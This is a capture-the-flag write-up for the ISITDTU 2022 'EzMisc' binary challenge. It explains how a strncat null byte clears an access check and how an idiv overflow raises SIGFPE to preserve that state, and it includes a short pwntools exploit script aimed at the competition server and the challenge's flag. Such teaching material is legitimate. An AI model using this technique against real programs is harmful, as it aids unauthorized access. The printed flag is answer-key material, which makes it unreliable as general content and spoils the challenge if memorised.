








# ISITDTU Final 2022 - EzMisc

You can download challenge files here: [game.zip](game.zip)

There are 3 files in zip:
- game
- libc.so.6
- ld-linux-x86-64.so.2 (I added)

Download, extract and patch the libc to the binary with the following commands:

```bash
patchelf --replace-needed libc.so.6 ./libc.so.6 ./game
patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./game
```

Now, we can get started!

# 1. Find bug && Idea

First, let's decompile the file to get the flow of program. The binary is stripped so we cannot see any function name so I will rename some of them for easy understanding. Here is the decompilation of main:



In main(), the program first creates a new mmap address called `new_chunk` with data type is DWORD and it then sets `new_chunk[64] = 1`. We can see that `new_chunk[65]` is used for exiting the program if `new_chunk[65]` equal to 1. It then creates a child thread and that child thread will run the function called run(), while the parent thread will wait until the child return, exit or crash. Let's check the function run:



In run(), the program first saves the data of `new_chunk` to a global variable and will restore that after each option:



Next, we can see that there are 3 options for us to use. For this challenge, we will focus in two options 1 and 2 because the last option is for another challenge called EzPwn which use the same files. Let's check the function read_motd() first:



As we known, `new_chunk[64]` is set to 1 at the begining of main() so if we choose option 2, we will get `Access denied` but our target is the execution of `system("cat flag1")`. Let's switch back to option 1, function play_game:



This is the only function that we can use and run. Therefore, this function might help us set `new_chunk[64]` back to 0 and we can get the flag in option 2. The function first read a string with function read_str(), which read data to a global pointer and return that pointer:



With the pointer returned from function read_str(), it then copies 0x100 bytes from the global pointer to the `new_chunk` created via mmap. If you notice that 0x100 bytes is equal with `4*64`, which is fit from `new_chunk[0]` to `new_chunk[63]`. But wait, here is the description of function strncat:



It will automatically add a null byte after the string, hence we can overwrite `new_chunk[64]` to null and we got what we want. But if we finish the function play_game(), data of `new_chunk` will be restore and `new_chunk[64]` will be 1 again, we will lost all we have got.

As we known, this is a child thread and the global variable `check` of function reset_buf() above is 1, but the global variable `check` of parent thread is still 0. Hence, if we can make this child thread exit without jumping back to reset_buf(), the program will create another new thread and the data of `new_chunk` will be kept the same, which means `new_chunk[64]` will be 0 for the next new thread created.

Because the only function we can use and run is play_game(), let's see how we make it crash. At first, I was looking for bugs in shared function such as printf or atoi but that was not possible. My second thought was to use the exit of function read_str by closing stdin and tried to reopen it for later use but still failed.

After the ctf ended, I ask for some hint and I was introduced to a bug integer overflow in this link: https://www.gnu.org/software/autoconf/manual/autoconf-2.60/html_node/Integer-Overflow.html. Basically, if the quotient of a division is larger than the size of output register, we get a SIGFPE as this post describe: https://docs.oracle.com/cd/E19455-01/806-3773/instructionset-44/index.html, more about idiv in assembly, you can read here: https://stackoverflow.com/questions/24672767/idiv-overflow-exception-asm.

We know that the maximum number of int is `0x7fffffff` (`2147483647` in decimal) and the minimum number of int is `0x80000000` (`-2147483648` in decimal) so if we divide a large number, such as `eax = 0xffffffff` and `edx = 1`, the number will be `edx:eax = 0x1ffffffff = 8589934591` and with the divisor is `1` for example, the quotient will be:

```python
>>> 8589934591 / 1
8589934591
```

But that is 5 bytes (`0x1ffffffff` is 5 byte in length) and will raise signal SIGFPE. One more typical example is if we divide `-2147483648` with `-1`, what will happen:

```python
>>> -2147483648 / -1
2147483648
```

It will change the sign of number. But wait, the maximum of int is just `2147483647` so if the result of division is `2147483648`, that's not legit --> SIGFPE too. The following assembly code can demonstrate that:

```as
section .text
	global _start

_start:
	mov eax, 0x80000000
	cdq
	mov ebx, 0xffffffff
	idiv ebx
```

That's all we should know. Summary:
- Input long payload to overwrite `new_chunk[64]` to null
- Make the division return SIGFPE

# 2. Exploit

We can input a payload upto 0x7ff bytes but that isn't necessary to inputing 0x100 bytes is enough. We want the program multiply the byte of payload with a number to get `0x80000000` so our string will be a string of byte `\x01`, the first magic number is `0x80000000` and the second one is `0xffffffff` (which is `-1` due to signed division). We have the following script to get flag:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./game")
# p = process(exe.path)
p = remote("20.121.188.64", 31337)

p.sendlineafter(b'choice: ', b'1')
p.sendafter(b'string: ', b'\x01'*0x100)
p.sendafter(b'number: ', str(0x80000000).encode() + b'\n')
p.sendafter(b'number: ', str(0xffffffff).encode() + b'\n')

p.sendlineafter(b'choice: ', b'2')

p.interactive()
```

# 3. Get flag



Flag is `ISITDTU{18cb1a14864e48ce4ee06d9aef0bf989cf1c8c9043c59ed68f4545cbacc63a5d}`